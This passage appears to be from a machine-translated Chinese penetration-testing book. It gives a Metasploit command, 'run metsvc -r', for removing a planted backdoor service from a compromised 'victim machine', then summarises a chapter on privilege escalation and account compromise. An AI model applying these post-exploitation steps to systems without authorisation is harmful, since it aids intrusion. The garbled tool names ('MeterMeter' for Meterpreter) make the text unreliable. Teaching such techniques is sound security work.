攻击成功执行；我们现在又开始了计量员会议。您可以使用 MeterMeter 会话执行任何操作。

要从受害机器上删除`metsvc`服务，可以从 MeterMeter 外壳运行以下命令：

```
    run metsvc -r  
```

之后，从受害者机器上移除`metsvc`文件。

# 总结

在本章中，我们试图借助许多工具升级当前访问级别并危害系统上的其他帐户。在下一章中，我们将攻击 web 应用程序和网站，以利用配置不当的安全检查点来访问后端的网络和系统，从而实现数据的 exfil。